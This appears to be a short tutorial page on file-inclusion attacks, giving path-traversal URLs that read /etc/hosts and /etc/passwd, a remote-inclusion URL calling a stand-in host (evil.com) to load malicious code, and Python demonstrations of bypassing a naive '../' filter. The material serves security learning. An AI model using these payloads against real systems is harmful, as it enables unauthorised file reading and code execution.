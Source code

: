 #### 2.1. About

- local and remote file inclusion
- payload examples: 
  - `https://site.com/?file=../../../../../../../etc/hosts`
  - `https://site.com/?file=http://evil.com?x.txt` (where `x.txt` contains malicious code)

Exercise: `https://pentesterlab.com/exercises/php_include_and_post_exploitation` (for free - "in Finland")


#### 2.2. Input sanitization bypass for local file inclusion

As part of the triage process every `../` in the application gets removed.
```python
>>> input = "../../../../../../etc/passwd"
>>> print(input.replace('../', ''));
etc/passwd
```

We can bypass the protection as:
```python
>>> input = "..././..././..././..././..././..././etc/passwd"
>>> print(input.replace('../', ''));
../../../../../../etc/passwd
>>> input = "....//....//etc/passwd"
>>> print(input.replace('../', ''));
../../etc/passwd
```
File path traversal was possible because we abused the function that is suppose to sanitize the user-input.
